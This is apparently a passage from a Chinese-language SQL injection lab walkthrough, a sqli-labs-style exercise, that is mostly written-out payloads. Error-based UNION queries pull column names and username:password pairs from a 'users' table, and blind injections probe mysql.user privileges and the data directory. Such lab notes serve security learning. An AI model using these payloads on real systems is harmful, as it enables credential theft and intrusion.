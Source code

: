 
## 获取列名



```sql
/?id=-1' union select 1,count(*),concat((select column_name from information_schema.columns where table_name='users'  limit 0,1),floor (rand()*2)) as a from information_schema.tables group by a --+
```



## 获取密码



```sql
/?id=-1' union select count(*),concat((select concat(username,':',password) from security.users  limit 0,1),floor (rand()*2)) as a from security.users group by a --+
```





# L7



## 判断权限



```sql
/?id=1')) and (select count(*) from mysql.user)>0 --+
```

回显正常，存在权限



## 获取文件目录长度



```sql
/?id=1')) and length(@@datadir)>$n --+
```

盲注获取长度



## 获取文件目录



```sql
/?id=1')) and ascii(substr(@@datadir,$n,1))=ascii('$c') --+
```

盲注获取文件目录
